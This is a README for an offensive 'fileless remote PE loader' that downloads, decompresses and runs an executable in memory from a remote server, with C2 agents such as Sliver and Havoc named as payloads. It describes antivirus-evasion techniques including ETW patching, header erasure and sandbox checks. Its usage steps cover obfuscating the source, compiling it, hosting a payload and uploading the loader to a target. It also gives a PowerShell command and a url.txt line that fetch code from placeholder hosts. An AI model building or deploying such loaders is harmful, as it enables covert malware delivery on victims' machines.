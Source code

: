 ### Fileless-Remote-PE-Loader
--------------------------------------
This loader allows to download, unzip, and execute directly in-memory a compressed offensive security tool (x64 PE executable embeded in a zip file) retrieved from a remote web server. It implements several defense evasion techniques (e.g. fileless delivery + reflective PE loading, ETW bypass, sandbox checks) designed to bypass antivirus solutions such as Windows Defender.

#### FEATURES
- Fileless delivery + Reflective PE loading (Downloads, decompresses, and executes in-memory a zipped x64 PE)
- ETW bypass in user-mode (Patching EtwEventWrite functions)
- Dynamic API resolution (Avoids static import of suspicious API 'VirtualAlloc')
- PE header erasure (After mapping the PE into memory, the DOS + NT headers are zeroed out to reduce forensic visibility) 
- Memory protection hardening (Applies section-specific memory permissions i.e. first writable, then switched to execute-only)
- Basic sandbox detection and evasion (Delayed execution + Terminates execution if a debugger is detected)
- Compatible with many offensive security tools (x64 EXE, unmanaged code, no GUI) such as C2 agents (e.g. Sliver, Havoc), ...

#### USAGE
- STEP 1 - Obfuscate the source code by removing all comments and 'printf' statements, renaming function and variable names, etc.

- STEP 2 - Compile the source code.  
           <i/>Note: the tool uses the 'miniz.c' library to perform ZIP decompression operations (https://github.com/richgel999/miniz)</i>
```
Example with Visual Studio 2022 Developer Command Prompt v17.14.14:
-------------------------------------------------------------------
c:\path-to-project\Fileless-Remote-PE-Loader> echo IDI_ICON1 ICON "myicon.ico" > appicon.rc
c:\path-to-project\Fileless-Remote-PE-Loader> rc appicon.rc
c:\path-to-project\Fileless-Remote-PE-Loader> cl /TC Fileless-Remote-PE-Loader.c miniz.c /link wininet.lib /MACHINE:X64 /OUT:Fileless-Remote-PE-Loader.exe appicon.res
```

- STEP 3 - Host on a web server the ZIP file embeding the offensive security tool (x64 PE) that you want to execute
```
Examples:
---------
- http://XX.XX.XX.XX:8080/file.zip
- http://XX.XX.XX.XX/file.zip
- https://your.website/file.zip
```
- STEP 4 - Upload the tool 'Fileless-Remote-PE-Loader.exe' on a target Windows machine and create in the same folder an "url.txt" file that contains the url to download your zip file.
		   When you will run the loader, it will download, unzip and execute in-memory your compressed PE file (x64 exe) located on your remote web server ('url.txt' file).
```
1. Download the loader
----------------------
c:\temp> powershell -c "wget -uri https://IP/Fileless-Remote-PE-Loader.exe - OutFile C:\temp\Fileless-Remote-PE-Loader.exe"
c:\temp> echo "http://ip/file.zip" > C:\temp\url.txt

2. Run the loader with the arguments to pass to the PE
------------------------------------------------------
c:\temp> Fileless-Remote-PE-Loader.exe arg1 arg2 [...]
or
2.bis Run the loader without argument
-------------------------------------
c:\temp> Fileless-Remote-PE-Loader.exe
No argument was provided. Press 'Enter' to continue, or press 'Ctrl+C' to exit and relaunch with arguments.
```

#### OPSEC improvement (to do)
- Implement direct syscalls to improve stealth because the use of 'VirtualAlloc' with 'PAGE_READWRITE' then 'VirtualProtect' to executable presents a 'medium' risk of detection.
  
#### LICENSE
GNU General Public License v3.0


